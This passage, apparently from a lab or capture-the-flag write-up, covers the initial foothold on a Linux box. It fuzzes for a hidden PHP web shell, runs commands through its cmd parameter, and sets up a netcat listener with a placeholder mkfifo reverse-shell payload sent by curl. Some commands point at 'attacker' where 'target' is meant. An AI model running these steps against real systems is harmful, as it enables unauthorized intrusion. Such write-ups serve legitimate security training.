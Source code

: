 ## Initial Foothold

### Gaining Shell

I accessed the HTTP server running on the target and landed on *Apache*'s default landing page.

![](https://cdn.ziomsec.com/escalate_linux/3.webp)

Since there was nothing of interest on the landing page, I looked for hidden files using **ffuf** and found a **php** file.

```shell
ffuf -u http://target/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -mc 200,302
```

![](https://cdn.ziomsec.com/escalate_linux/4.webp)

Accessing the file revealed that it required a parameter called *cmd*.

```shell
curl http://target/shell.php
```

![](https://cdn.ziomsec.com/escalate_linux/5.webp)

To test out the *cmd* parameter, I sent another request by appending a shell command and got an interesting response from the target.

```shell
curl -X GET http://target/shell.php?cmd=whoami
```

![](https://cdn.ziomsec.com/escalate_linux/6.webp)

The value being passed in the *cmd* parameter was being executed by the server and its result was being returned in the response. I leveraged this to first verify if the target had **netcat** and **bash** shell and then got a reverse shell.

```shell
curl -X GET http://attacker/shell.php?cmd=which+nc
curl -X GET http://attacker/shell.php?cmd=which+bash
```

![](https://cdn.ziomsec.com/escalate_linux/7.webp)

> You can get the reverse shell payload from **[revshells](https://www.revshells.com/)**. 

```shell
# start a netcat listener
rlwrap nc -lnvp 4444

# on another terminal, use command injection to get reverse shell
curl -x GET http://attacker/shell.php?cmd={REVSHELL_NC-MKFIFO_PAYLOAD} # URL encode the payload
```
